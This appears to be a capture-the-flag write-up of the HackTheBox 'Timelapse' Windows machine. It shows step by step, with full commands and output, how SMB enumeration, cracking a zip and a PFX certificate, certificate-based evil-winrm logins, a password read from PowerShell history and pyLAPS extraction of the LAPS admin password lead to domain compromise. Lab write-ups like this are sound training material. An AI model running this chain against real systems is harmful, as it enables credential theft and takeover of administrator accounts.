



# Timelapse - HackTheBox - Writeup
Windows, 20 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding ports related to ```SMB```, ```wsman``` etc.

***User 1***: By enumerating the shares we found a zip file called ```winrm_backup.zip ```, By cracking the zip we found ```legacyy_dev_auth.pfx``` file (Client certificate authentication with WinRM), Using the ```pfx``` file we create a certificate and private key and we use them to login using ```evil-winrm``` as ```legacyy``` user.

***User 2***: By enumerating the ```PowerShell``` history we found the password of ```svc_deploy``` user.

***Root***: Extracting the password of ```Administrator``` user from ```LAPS``` Using ```pyLAPS```. 




## Timelapse Solution

### User 1

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Timelapse]
└──╼ $ nmap -sV -sC -Pn -oA nmap/Timelapse 10.10.11.152
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-04 23:28 IDT
Nmap scan report for 10.10.11.152
Host is up (0.16s latency).
Not shown: 989 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-05 04:28:41Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/4%Time=624B54FF%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h59m58s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-04-05T04:31:06
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

```

All port scanning:
```console
┌─[evyatar@parrot]─[/hackthebox/Timelapse]
└──╼ $ nmap -p- 10.10.11.152
Not shown: 65517 filtered ports
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5986/tcp  open  wsmans
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49694/tcp open  unknown
50770/tcp open  unknown
```

By enumerating the shares using ```smbclient``` we can see the following shares:
```console
┌─[evyatar@parrot]─[/hackthebox/Timelapse]
└──╼ $ smbclient -L 10.10.11.152
Enter WORKGROUP\user's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Shares          Disk      
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available

```

We have access only to ```Shares``` share, Let's observe it:
```console
┌─[evyatar@parrot]─[/hackthebox/Timelapse]
└──╼ $ smbclient \\\\10.10.11.152\\Shares
Enter WORKGROUP\user's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Oct 25 18:39:15 2021
  ..                                  D        0  Mon Oct 25 18:39:15 2021
  Dev                                 D        0  Mon Oct 25 22:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 18:48:42 2021

		6367231 blocks of size 4096. 2305302 blocks available
smb: \> cd Dev
smb: \Dev\> dir
  .                                   D        0  Mon Oct 25 22:40:06 2021
  ..                                  D        0  Mon Oct 25 22:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 18:46:42 2021

		6367231 blocks of size 4096. 2305302 blocks available
smb: \Dev\> cd ..\HelpDesk
smb: \HelpDesk\> dir
  .                                   D        0  Mon Oct 25 18:48:42 2021
  ..                                  D        0  Mon Oct 25 18:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 17:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 17:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 17:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 17:57:44 2021

		6367231 blocks of size 4096. 2305302 blocks available
```

Let's download the files using ```get``` command.

By observing the ```winrm_backup.zip``` file we can see it's locked with a password:
```console
┌─[evyatar@parrot]─[/hackthebox/Timelapse]
└──╼ $ unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
```

We can see the zip file contains ```legacyy_dev_auth.pfx``` file which is Client certificate authentication with WinRM.

By cracking the hash using ```zip2john``` and ```john``` we get the password ```supremelegacy```.

Now, We need to use the ```pfx``` file, First, we need to extract the certificate and private key  from the ```pfx``` file using the following commands ([Reference](https://wiki.cac.washington.edu/display/infra/Extracting+Certificate+and+Private+Key+Files+from+a+.pfx+File)):
```console
┌─[evyatar@parrot]─[/hackthebox/Timelapse]
└──╼ $ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
Enter Import Password:
```

As we can see, we need the import password.

We can get it using [pfx2john](https://github.com/sirrushoo/python/blob/master/pfx2john.py):
```console
┌─[evyatar@parrot]─[/hackthebox/Timelapse]
└──╼ $ python3 pfx2john.py legacyy_dev_auth.pfx > pfx_hash
┌─[evyatar@parrot]─[/hackthebox/Timelapse]
└──╼ $ john --wordlist=~/Desktop/rockyou.txt pfx_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx [PKCS12 PBE (.pfx, .p12) (SHA-1 to SHA-512) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)
1g 0:00:00:47 DONE (2022-04-05 00:09) 0.02094g/s 67694p/s 67694c/s 67694C/s thuglife03282006..thscndsp1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And we get the password ```thuglegacy```, Let's create the certificate and private key from ```pfx```:
```console
┌─[evyatar@parrot]─[/hackthebox/Timelapse]
└──╼ $ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes 
Enter Import Password:
┌─[evyatar@parrot]─[/hackthebox/Timelapse]
└──╼ $ openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
Enter Import Password:
```

Now we can use [evil-winrm](https://github.com/Hackplayers/evil-winrm) to connect using the certificate and the key files:
```console
┌─[evyatar@parrot]─[/hackthebox/Timelapse]
└──╼ $ evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem -S

Evil-WinRM shell v3.3

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
Evil-WinRM* PS C:\Users\legacyy\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\legacyy\Desktop> dir


    Directory: C:\Users\legacyy\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         4/4/2022   4:48 PM             34 user.txt


typ*Evil-WinRM* PS C:\Users\legacyy\Desktop> type user.txt
748da45519cea943ae586bf28ac72c41

```

And we get the user flag ```748da45519cea943ae586bf28ac72c41```.

### User 2

On ```C:\Users``` directory we can see we have another two users:
```console
*Evil-WinRM* PS C:\users> dir


    Directory: C:\users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/23/2021  11:27 AM                Administrator
d-----       10/25/2021   8:22 AM                legacyy
d-r---       10/23/2021  11:27 AM                Public
d-----       10/25/2021  12:23 PM                svc_deploy
d-----        2/23/2022   5:45 PM                TRX

```

By observing the ```PowerShell``` history we can get the password of ```svc_deploy```:
```console
*Evil-WinRM* PS C:\users> type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit

```
### Root

According to the files on ```HelpDesk``` share:
```console
smb: \HelpDesk\> dir
  .                                   D        0  Mon Oct 25 18:48:42 2021
  ..                                  D        0  Mon Oct 25 18:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 17:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 17:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 17:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 17:57:44 2021

		6367231 blocks of size 4096. 2305302 blocks available
```

We know that we have ```LAPS``` installed (Use LAPS to automatically manage local administrator passwords on domain-joined computers so that passwords are unique on each managed computer, randomly generated, and securely stored in Active Directory infrastructure).

We can use [pyLAPS](https://github.com/p0dalirius/pyLAPS) to extract the passwords from LAPS ([Alternatives](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#reading-laps-password)):
```console
┌─[evyatar@parrot]─[/hackthebox/Timelapse/pyLAPS]
└──╼ $ python3 pyLAPS.py --action get -u 'svc_deploy' -d 'timelapse.htb' -p 'E3R$Q62^12p7PLlC%KWaxuaV' --dc-ip 10.10.11.152
                 __    ___    ____  _____
    ____  __  __/ /   /   |  / __ \/ ___/
   / __ \/ / / / /   / /| | / /_/ /\__ \   
  / /_/ / /_/ / /___/ ___ |/ ____/___/ /   
 / .___/\__, /_____/_/  |_/_/    /____/    v1.2
/_/    /____/           @podalirius_           
    
[+] Extracting LAPS passwords of all computers ... 
  | DC01$                : #+2$}(W4;!@{g7V)a4qN5Ut2

```

We get the ```Administrator``` password ```#+2$}(W4;!@{g7V)a4qN5Ut2```, Let's log in again using ```evil-winrm```:
```console
┌─[evyatar@parrot]─[/hackthebox/Timelapse]
└──╼ $ evil-winrm -i 10.10.11.152 -u Administrator -S
Enter Password: 

Evil-WinRM shell v3.3

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```

The ```root``` flag locate on ```TRX``` user directory:
```console
*Evil-WinRM* PS C:\Users\TRX\desktop> dir


    Directory: C:\Users\TRX\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         4/6/2022   8:22 PM             34 root.txt


*Evil-WinRM* PS C:\Users\TRX\desktop> type root.txt
b9621c6f3e562f459227c038560f932d

```

And we get the root flag ```b9621c6f3e562f459227c038560f932d```.